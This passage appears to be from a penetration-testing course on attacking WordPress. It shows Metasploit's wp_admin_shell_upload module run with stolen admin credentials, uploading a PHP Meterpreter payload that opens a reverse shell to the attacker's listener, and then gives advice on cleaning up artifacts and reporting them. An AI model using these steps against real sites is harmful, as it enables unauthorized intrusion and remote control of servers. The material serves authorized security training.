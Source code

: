```shell-session


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Once we are satisfied with the setup, we can type `exploit` and obtain a reverse shell. From here, we could start enumerating the host for sensitive data or paths for vertical/horizontal privilege escalation and lateral movement.

&#x20; Attacking WordPress

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```

In the above example, the Metasploit module uploaded the `wCoUuUPfIO.php` file to the `/wp-content/plugins` directory. Many Metasploit modules (and other tools) attempt to clean up after themselves, but some fail. During an assessment, we would want to make every attempt to clean up this artifact from the client system and, regardless of whether we were able to remove it or not, we should list this artifact in our report appendices. At the very least, our report should have an appendix section that lists the following information—more on this in a later module.

* Exploited systems (hostname/IP and method of exploitation)
* Compromised users (account name, method of compromise, account type (local or domain))
* Artifacts created on systems
* Changes (such as adding a local admin user or modifying group membership)
